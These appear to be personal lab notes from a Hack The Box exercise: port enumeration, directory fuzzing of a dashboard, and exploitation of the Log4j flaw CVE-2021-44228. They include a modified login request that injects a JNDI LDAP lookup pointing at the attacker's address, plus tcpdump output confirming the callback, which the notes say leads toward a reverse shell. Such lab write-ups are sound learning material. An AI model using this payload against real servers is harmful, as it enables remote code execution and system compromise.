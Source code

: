 ip = 10.129.71.133

found port 8443 on my own

## Ports

22 - ssh
6789 - ibm-db2-admin?
8080 - http-proxy - status 404 - should ffuf?
8443 - web dashboard trying to crack. cannot ffuf as will redirect to login
8843 - ssl? - status 400 - may be used for api?
8880 - tcp? - status 404 - should ffuf

## 8080

Proxy for 8443. Found the following paths:-

/print (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/print]
/pages (Status: 302) [Size: 0] [--> /pages/]
/upload (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/upload]
/file (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/file]
/status (Status: 200) [Size: 76]
/v2 (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/v2]
/api (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/api]
/logout (Status: 302) [Size: 0] [--> /manage]
/setup (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/setup]
/manage (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/manage]
/op (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/op]
/verify (Status: 302) [Size: 0] [--> /manage/account/verify?r=1]

## CVE-2021-44228: Log4j

link - https://censys.com/blog/cve-2021-44228-log4j

### Flow

we can modify the form data to inject a payload in the "remember password" field. This payload will be injected in the logger like so

```java
log.info("username: ${username} ; remember: ${remember});

# resolves to:-
log.info("username: ${payload.username} ; remember: ${<payload>});
```

We can use JNDI to dynamicall fetch a file using LDAP (we create a malicious LDAP server) to get a reverse shell up in the server.

Use burpsuite to capture the POST request from the unifi network server and forward request to repeater.

create tcp dump logger:

```bash
└──╼ [★]$ sudo tcpdump -i tun0 port 1389
```

#### Original Payload

```http
POST /api/login HTTP/1.1
Host: 10.129.53.120:8443
Content-Length: 81
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json; charset=utf-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://10.129.53.120:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://10.129.53.120:8443/manage/account/login?redirect=%2Fmanage
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

{"username":"testuser","password":"testpassword","remember": true,"strict":true}
```

#### Modified Payload

```http
POST /api/login HTTP/1.1
Host: 10.129.53.120:8443
Content-Length: 111
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json; charset=utf-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://10.129.53.120:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://10.129.53.120:8443/manage/account/login?redirect=%2Fmanage
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

{"username":"testuser","password":"testpassword","remember":"${jndi:ldap://10.10.14.147:1389}",
"strict":true}
```

#### Result

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes


18:33:36.891611 IP 10.129.53.120.55414 > htb-ie8f9usvwk.1389: Flags [S], seq 1293191773, win 64240, options [mss 1362,sackOK,TS val 3435078781 ecr 0,nop,wscale 7], length 0
18:33:36.891622 IP htb-ie8f9usvwk.1389 > 10.129.53.120.55414: Flags [R.], seq 0, ack 1293191774, win 0, length 0
```

User the following notes to launch LDAP attack: notes/infiltration/general/ldap-for-jndi-attack.md
